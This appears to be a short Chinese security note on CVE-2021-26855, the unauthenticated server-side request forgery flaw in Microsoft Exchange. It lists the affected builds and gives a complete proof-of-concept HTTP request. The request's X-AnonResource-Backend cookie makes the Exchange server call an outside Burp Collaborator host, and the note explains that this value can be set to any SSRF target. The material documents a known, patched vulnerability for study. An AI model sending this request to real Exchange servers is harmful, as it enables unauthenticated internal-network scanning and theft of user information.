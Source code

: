 ```yaml
---
title: "CVE-2021-26855"
author: ["4shen0ne"]
tags: ["cve", "vuln"]
draft: false
---
```


Exchange SSRF 漏洞，攻击者可直接构造恶意请求，以 Exchange server 的身份发起任意
HTTP 请求，扫描内网，并且可获取 Exchange 用户信息。该漏洞利用无需身份认证。


## 影响版本 {#影响版本}

-   Exchange 2013 Versions &lt; 15.00.1497.012
-   Exchange 2016 CU18 &lt; 15.01.2106.013
-   Exchange 2016 CU19 &lt; 15.01.2176.009
-   Exchange 2019 CU7 &lt; 15.02.0721.013
-   Exchange 2019 CU8 &lt; 15.02.0792.010


## poc {#poc}

```nil
GET /owa/auth/x.js HTTP/1.1
Host: IP
Connection: close
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="88"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Referer: https://IP/owa/auth/logon.aspx?url=https%3a%2f%2PIp%2fowa%2f&reason=0
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: X-AnonResource=true; X-AnonResource-Backend=oyq5v1vyqo5komisdc1jfltvzm5dt2.burpcollaborator.net/ecp/default.flt?~3; X-BEResource=localhost/owa/auth/logon.aspx?~3;
```

x.js 可以随意构造，在 cookie 的 X-AnonResource-Backend 参数中设置 ssrf 目标，比
如上面的 oyq5v1vyqo5komisdc1jfltvzm5dt2.burpcollaborator.net
